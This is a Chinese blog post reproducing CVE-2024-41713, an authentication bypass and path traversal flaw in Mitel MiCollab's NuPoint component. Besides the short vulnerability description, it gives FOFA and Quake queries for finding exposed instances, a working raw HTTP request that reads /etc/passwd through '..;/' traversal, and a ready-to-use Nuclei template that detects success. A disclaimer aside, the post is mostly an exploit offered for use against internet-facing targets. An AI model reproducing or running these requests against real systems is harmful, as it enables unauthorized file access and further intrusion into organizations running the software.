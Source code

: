 #  【漏洞复现】CVE-2024-41713   
原创 混子Hacker  混子Hacker   2024-12-06 15:46  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
总有一天你会明白，真正能治愈你的，从来不是时间，而是你心里的那段释怀和格局 ——  
  
CVE-2024-41713  
  
Mitel MiCollab 是一个企业协作平台，它将各种通信工具整合到一个应用程序中，提供语音和视频通话、消息传递、状态信息、音频会议、移动支持和团队协作功能。该软件的 NuPoint 统一消息 (NPM) 组件中存在身份验证绕过漏洞，由于输入验证不足，未经身份验证的远程攻击者可利用该漏洞执行路径遍历攻击，成功利用可能导致未授权访问、破坏或删除用户的数据和系统配置  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvpFroHretiaCic1vlicicdxLtxxGL8kZnEicKRqUtbgS9xU0tTRMKYMibky4Kht7Q0vJq2GCvicjSPH2KEQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞信息  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
```
fofa: body="MiCollab End User Portal"
Quake：app:"Mitel MiCollab Login Panel"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvpFroHretiaCic1vlicicdxLtxNvFCAv4jpiahhv4VItvR0yhZCbXRsLUsSfLl5FrT2HXgnBtx8mJ6Bgg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvpFroHretiaCic1vlicicdxLtx588yMJIp1mCOtKbNgWiaibUBJFR8UUV1vvpcOuaHuic18gicR1y9BZLRlg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
```
POST /npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2 HTTP/1.1
Host: xxx
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

_transaction=<transaction xmlns:xsi="http://www.w3.org/2000/10/XMLSchema-instance" xsi:type="xsd:Object"><transactionNum xsi:type="xsd:long">2</transactionNum><operations xsi:type="xsd:List"><elem xsi:type="xsd:Object"><criteria xsi:type="xsd:Object"><reportName>../../../etc/passwd</reportName></criteria><operationConfig xsi:type="xsd:Object"><dataSource>summary_reports</dataSource><operationType>fetch</operationType></operationConfig><appID>builtinApplication</appID><operation>downloadReport</operation><oldValues xsi:type="xsd:Object"><reportName>x.txt</reportName></oldValues></elem></operations><jscallback>x</jscallback></transaction>&protocolVersion=1.0&__iframeTarget__=x
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvpFroHretiaCic1vlicicdxLtxt5Vm99tUq8ukdUtTcyOnibRgN9nkckXDZP2kJImcNtdABvYKtDeCBew/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
```
id: CVE-2024-41713
info:
  name: CVE-2024-41713
  author: Thomas
  severity: high
  description: Mitel MiCollab NuPoint BypassAuth
  reference:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-41713
  classification:
    cvss-score: 9.8
    cwe-id: CWE-24
  tags: hjtcloud,lfi
requests:
  - raw:
      - |
        POST /npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2 HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        _transaction=<transaction xmlns:xsi="http://www.w3.org/2000/10/XMLSchema-instance" xsi:type="xsd:Object"><transactionNum xsi:type="xsd:long">2</transactionNum><operations xsi:type="xsd:List"><elem xsi:type="xsd:Object"><criteria xsi:type="xsd:Object"><reportName>../../../etc/passwd</reportName></criteria><operationConfig xsi:type="xsd:Object"><dataSource>summary_reports</dataSource><operationType>fetch</operationType></operationConfig><appID>builtinApplication</appID><operation>downloadReport</operation><oldValues xsi:type="xsd:Object"><reportName>x.txt</reportName></oldValues></elem></operations><jscallback>x</jscallback></transaction>&protocolVersion=1.0&__iframeTarget__=x
    matchers-condition: and
    matchers:
      - type: regex
        regex:
          - "root:.*:0:0:"
      - type: status
        status:
          - 200
# POC格式自己调整下公众号复制粘贴有点bug     
```  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  
